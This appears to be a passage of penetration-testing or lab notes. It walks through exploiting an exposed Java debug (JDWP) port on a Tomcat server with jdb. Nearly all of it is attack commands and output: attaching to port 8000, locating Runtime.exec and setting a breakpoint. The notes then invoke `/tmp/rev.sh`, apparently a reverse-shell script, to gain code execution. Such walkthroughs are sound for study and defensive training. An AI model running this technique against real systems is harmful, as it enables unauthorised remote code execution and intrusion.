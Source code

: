 - So let's do it manually
  - https://dl.packetstormsecurity.net/1307-exploits/JDWP-exploitation.txt
  - https://notes.qazeer.io/l7/methodology-20
```
└─$ jdb -attach 8000
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> 
```
```
> classes
** classes list **
sun.reflect.annotation.AnnotationParser$$Lambda$97.677120200
...
java.lang.Runtime
...
```
```
> methods java.lang.Runtime
** methods list **
...
java.lang.Runtime exec(java.lang.String[])
...
```

- Then we trace methods
```
> trace go methods
Method entered: > "thread=http-nio-127.0.0.1-8080-BlockPoller", org.apache.tomcat.util.net.NioBlockingSelector$BlockPoller.events(), line=280 bci=0
Method entered: "thread=http-nio-127.0.0.1-8080-BlockPoller", org.apache.tomcat.util.collections.SynchronizedQueue.size(), line=93 bci=0
Method entered: "thread=ajp-nio-127.0.0.1-8009-BlockPoller", org.apache.tomcat.util.net.NioBlockingSelector$BlockPoller.events(), line=280 bci=0
Method entered: "thread=ajp-nio-127.0.0.1-8009-BlockPoller", org.apache.tomcat.util.collections.SynchronizedQueue.size(), line=93 bci=0
Method entered: "thread=http-nio-127.0.0.1-8080-BlockPoller", org.apache.tomcat.util.net.NioBlockingSelector$BlockPoller.events(), line=280 bci=0
Method entered: "thread=http-nio-127.0.0.1-8080-BlockPoller", org.apache.tomcat.util.collections.SynchronizedQueue.size(), line=93 bci=0
Method exited: return value = 0, "thread=http-nio-127.0.0.1-8080-BlockPoller", org.apache.tomcat.util.collections.SynchronizedQueue.size(), line=97 bci=22
...
```

- We then set a breakpoint on method: `stop in org.apache.tomcat.util.collections.SynchronizedQueue.size()`
  - Then when we hit a breakpoint, send `print new java.lang.Runtime().exec("/tmp/rev.sh")`
```
└─$ jdb -attach 8000
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> stop in org.apache.tomcat.util.collections.SynchronizedQueue.size()
Set breakpoint org.apache.tomcat.util.collections.SynchronizedQueue.size()
> 
Breakpoint hit: "thread=ajp-nio-127.0.0.1-8009-BlockPoller", org.apache.tomcat.util.collections.SynchronizedQueue.size(), line=93 bci=0

ajp-nio-127.0.0.1-8009-BlockPoller[1] print new java.lang.Runtime().exec("/tmp/rev.sh")
```
